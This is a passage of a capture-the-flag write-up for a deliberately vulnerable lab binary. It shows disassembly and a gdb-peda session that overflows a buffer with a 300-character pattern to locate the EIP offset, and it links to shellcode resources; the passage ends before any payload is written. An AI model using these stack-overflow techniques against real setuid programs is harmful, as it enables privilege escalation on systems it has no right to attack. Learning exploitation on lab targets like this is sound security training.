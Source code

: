 ```bash
   0x00001267 <+85>:	lea    esp,[ebp-0xc]
   0x0000126a <+88>:	pop    ecx
   0x0000126b <+89>:	pop    ebx
   0x0000126c <+90>:	pop    esi
   0x0000126d <+91>:	pop    ebp
   0x0000126e <+92>:	lea    esp,[ecx-0x4]
   0x00001271 <+95>:	ret
```

The function `overflow()` is called but before that a call to set the UID to the user who owns the binary is made, that is `level3`.

So what needs to be done is, overflow the `EIP` register, find the offset of the buffer... and then...

The slight complexity of the binary is found here. comparing the previous challenges with `level3` shows that at `level3` there is no function to spawn a shell. This would require a shellcode be provided supplied by the user.

Let's create a pattern of `300` characters long and send to the binary to overflow the `EIP` register and find out the offset.

```bash
gdb-peda$ pattern_create 300
'AAA%AAsAABAA$AAnAACAA-AA---SNIP---'
gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA---SNIP---'

[----------------------------------registers-----------------------------------]
EAX: 0x132
EBX: 0x25413225 ('%2A%')
ECX: 0x1
EDX: 0xf7fa9890 --> 0x0
ESI: 0xffffd490 --> 0x2
EDI: 0xf7fa8000 --> 0x1d9d6c
EBP: 0x64254148 ('HA%d')
ESP: 0xffffd440 ("%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
EIP: 0x41332541 ('A%3A')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41332541
[------------------------------------stack-------------------------------------]
0000| 0xffffd440 ("%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0004| 0xffffd444 ("eA%4A%JA%fA%5A%KA%gA%6A%")
0008| 0xffffd448 ("A%JA%fA%5A%KA%gA%6A%")
0012| 0xffffd44c ("%fA%5A%KA%gA%6A%")
0016| 0xffffd450 ("5A%KA%gA%6A%")
0020| 0xffffd454 ("A%gA%6A%")
0024| 0xffffd458 ("%6A%")
0028| 0xffffd45c --> 0x300
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41332541 in ?? ()
```


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-101,290/	"IntroToStackOverflow"
[2]: https://github.com/longld/peda
[3]: <http://shell-storm.org/shellcode/files/shellcode-399.php>
[4]: <https://www.exploit-db.com/shellcodes/46809>